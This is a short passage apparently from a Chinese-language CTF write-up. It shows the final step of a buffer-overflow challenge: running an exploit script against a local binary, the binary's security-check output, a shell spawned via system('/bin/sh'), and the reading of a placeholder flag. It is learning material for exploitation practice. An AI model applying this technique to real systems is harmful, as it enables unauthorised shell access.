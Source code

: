 4. **步骤四：执行exploit并获取shell**

   运行上面的Python脚本，通过溢出漏洞执行 `system("/bin/sh")`，从而获得shell。

   ```bash
   $ python3 exploit.py
   [*] '/path/to/pwn1'
       Arch:     amd64-64-little
       RELRO:    Partial RELRO
       Stack:    No canary found
       NX:       NX enabled
       PIE:      No PIE (0x400000)
   [*] Starting local process './pwn1': pid 12345
   $ whoami
   user
   $ cat /path/to/flag
   DASCTF{xxxxxxx}
   ```

通过以上步骤，我们成功利用缓冲区溢出漏洞获取了目标系统的shell，并读取了FLAG。

```